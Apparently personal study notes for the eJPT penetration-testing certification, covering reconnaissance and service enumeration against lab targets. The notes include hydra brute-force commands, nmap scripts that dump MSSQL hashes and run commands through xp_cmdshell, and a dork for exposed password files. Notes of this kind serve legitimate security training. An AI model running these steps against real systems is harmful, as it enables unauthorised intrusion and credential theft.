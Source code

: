 ```yaml
---
title: 'Enumeration'
description: 'A resume from INE Learning Path for eJPT cert and some self notes to get success'
pubDate: 'May 12 2023'
heroImage: '/enumeration.png'
slug: 'trip/enumeration'
---
```


## Passive information gathering

**WAF:** WAFWOOF Github tool.

Subdomain Enumeration

    - Gobuster
    - wfuzz
    - etc

**Google Dorks**

- http://exploit-db.com
- site: gov._ intitle: "index of" _.csv passwords

[google dorking](https://www.googleguide.com/advanced_operators_reference.html)

[google hacking](https://www.exploit-db.com/google-hacking-database)
```bash


```

**Email Harvesting**

    - theHarvester
    # The tool gathers names, emails, IPs, subdomains, and URLs by using
    multiple public resources that include:

**Leaked password dbs**

    - haveibeenpwned.com
    - firepwd

## Active information gathering

DNS Zone Transfers

    - dnsenum
    - dig
    - fierce

    Host, Port, Services
    - nmap

### Info

Windows Recon: Nmap Host Discovery
Winwos Reconnaissance: SMB

## Footprinting and scanning

### Protocol

What protocol matches MAC addresses to IP addresses?

**arp**
**smb**
**icmp**
**http**

### Tools

    - Wireshark
    - ARP-SCAN
    - PING
    - FPING
    - NMAP nmap -sn 10.10.33.14/24
    - ZENMAP (GUI)
    - RustScan
    - Masscan

<img src="https://www.ictshore.com/wp-content/uploads/2016/12/1017-02-TCP_States_in_a_connection.png" width=864px style="background-color: #eee" >

## Enumeration

### FTP

File transfer protocol uses TCP port 21.

```bash

# find ftp potentially script from nmap.

ls -la /usr/share/nmap/scripts | grep ftp-*

# Using hydra brute-force.
$hydra -L /usr/share/metasploit-framework/data/wordlists/users.txt -P /usr/share/metasploit-framework/data/wordlists/pass.txt target -t 4 ftp(protocol)

# ftp target
and we have anonymous login

$nmap target -p21 --script ftp-anon
```

### SSH

```bash
$nmap target -p22 --script ssh-hostkey --script-args ssh_hostkey=full
#ssh-rsa: .*?
#verify is student have password
$nmap target -p22 --script ssh-auth-methods
--script-args="ssh.user=student"

#attack

$hydra -l student -P /usr/rockyou.txt target ssh(protocol)

# How many “encryption_algorithms”?
nmap --script ssh2-enum-algos 192.201.39.3

# What is the ssh-rsa host key being used by the SSH server.
nmap --script ssh-hostkey --script-args ssh_hostkey=full 192.201.39.3

# Which authentication method is being used by the SSH server for user “rosa”.
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=rosa" 192.201.39.3
```

### HTTP

http target

```bash
find directorios default
$dirb target

$nmap target -sCV -p80 --script http-headers
- http-enum
- http-methods
- http-webdav-scan

```

### SQL

```bash

$nmap target -sCV -p3306 --script=mysql-empty-password

$nmap target -sCV -p3306 --script=mysql-users --script-args="mysqluser='root', mysqlpass=''"

$nmap target -sCV -p3306 --script=mysql-variables --script-args="mysqluser='root', mysqlpass=''"

$nmap target -sCV -p3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='', mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"

#attack

$hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target mysql(protocol)

#WINDOWS

$nmap target -p1433 --script ms-sql-info

$nmap target -p1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433

$nmap target -p1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/common_password.txt

$nmap target -p1433 --script ms-sql-empty-password

$nmap target -p1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query='SELECT * FROM master..syslogins' -oN output

$nmap target -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria

$nmap target -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"

```
